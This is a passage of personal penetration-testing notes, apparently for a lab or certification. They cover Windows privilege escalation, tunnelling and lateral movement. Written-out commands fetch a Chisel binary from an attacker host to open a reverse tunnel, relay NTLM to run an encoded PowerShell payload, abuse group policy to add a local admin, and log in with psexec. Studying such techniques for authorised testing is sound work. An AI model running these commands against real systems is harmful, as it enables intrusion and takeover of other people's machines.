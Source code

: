 #### Refer to NXC.sh for some cool uses

Save all hashes, passwords, and users in a file so that you can automate the enumeration process of various protocols.

#### If None of Your Commands Work

If you're in a shit shell, try exporting a proper path:

```bash
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

#### Locally Running Apps

Look through the applications in "c:\program files" and "c:\program files (x86)", and run them through the exploit database to see if you can abuse a public privilege escalation.

#### Chisel

```bash
kali@kali:~/beyond$ chmod a+x chisel
kali@kali:~/beyond$ ./chisel server -p 8081 --reverse
C:\windows\tasks> iwr -uri 192.168.45.163:8000/chisel.exe -o chisel.exe
C:\windows\tasks> .\chisel.exe client 192.168.45.163:8081 R:8082:172.16.197.241:80
# Could replace 172.* with localhost
# Go to 127.0.0.1
```

#### SMB Signing Disabled

Possible SMB relay attack:

```bash
# mail server ip (target for relay attack)
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.241.242 -c "powershell -enc JABjAGwAaQ..."
# trigger by reaching out to your server (ip) by whatever means, in this case it was changing the backup migration location on wordpress to my //$ip/test
```

#### SharpGPOAbuse

```bash
. .\PowerView.ps1
Get-GPO -Name "Default Domain Policy"
Get-GPPermission -Guid <ID from above> -TargetType User -TargetName anirudh
# Look for GpoEditDeleteModifySecurity
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
gpupdate /force

psexec.py $ip/anirudh:SecureHM@$ip
``` 

#### Piping Password in Windows

If you see something unusual, but it requires a password and it just skips over the password for whatever reason (doesn't let you input one), echo and pipe the password
